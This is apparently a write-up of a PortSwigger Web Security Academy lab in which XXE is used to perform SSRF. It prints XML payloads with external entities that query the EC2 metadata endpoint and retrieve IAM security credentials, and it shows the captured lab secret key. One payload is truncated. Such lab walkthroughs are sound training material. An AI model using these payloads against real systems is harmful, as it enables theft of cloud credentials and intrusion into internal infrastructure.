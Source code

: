 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/27ddd09b-c759-465e-8783-efdf96e96d99)


## Overview :

#### Exploiting XXE to perform SSRF attacks

Aside from retrieval of sensitive data, the other main impact of XXE attacks is that they **can be used to perform server-side request forgery (SSRF)**. This is a potentially serious vulnerability in which the server-side application can be induced to make HTTP requests to any URL that the server can access.

To exploit an XXE vulnerability to perform an SSRF attack, you need to **define an external XML entity using the URL that you want to target**, and **use the defined entity within a data value**. If you can use the defined entity within a data value that is returned in the application's response, then you will be able to view the response from the URL within the application's response, and so gain two-way interaction with the back-end system. If not, then you will only be able to perform blind SSRF attacks (which can still have critical consequences).

In the following XXE example, the external entity will cause the server to make a back-end HTTP request to an internal system within the organization's infrastructure:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

## Solution :

> The lab server is running a (simulated) AWS EC2 metadata endpoint at the default URL, which is http://169.254.169.254/

#### Access the EC2 instance -

Clicking on checkstock , a request is sent as follows.

```xml
POST /product/stock HTTP/1.1
Host: 0a6b0074032a636f8001716f00660002.web-security-academy.net
Cookie: session=IO1xzxtsKi3p7KPymgSicKBsVEpCG8sT
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a6b0074032a636f8001716f00660002.web-security-academy.net/product?productId=2
Content-Type: application/xml
Content-Length: 107
Origin: https://0a6b0074032a636f8001716f00660002.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>2</productId>
  <storeId>1</storeId>
</stockCheck>
```

First we declare a DOCTYPE with an external entitiy which fetches the url **http://169.254.169.254** from the backend system - `<!DOCTYPE foo [ <!ENTITY aws SYSTEM "http://169.254.169.254/"> ]>`


Then we can try to refer the entitiy `aws` in between the `<productID>` tags to fetch the url & return the response of the application.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/aafdd39a-293e-4afd-b3a6-96a4942ad547)

We can see that it returned `latest` which is the starting path where we can get the **IAM secret access key**.

> http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME - Full path that returns the security credentials of that role.

We don't know what is the  **ROLE_NAME** here. So lets first fetch http://169.254.169.254/latest/meta-data/iam/security-credentials/

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY aws SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/"> ]>
 <stockCheck>
  <productId>&aws;</productId>
  <storeId>1</storeId>
</stockCheck>
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b2afb661-82d2-42e9-a495-c7f1a0dca213)

We now got to know that the **ROLE_NAME is admin**. Include admin in the uri & send the request again.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY aws SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin
 <stockCheck>
  <productId>&aws;</productId>
  <storeId>1</storeId>
</stockCheck>
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9bee157e-c2f6-4f47-ad7c-a1b3a1597df6)

Now we got the secret access key from AWS EC2 - `Dzwohf7utghOfHiha9CFLAxKD6LurMKh4QrzaBCE`

And the has been solved.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/886c75d2-26e1-455c-ae34-c62a3b4f9293)












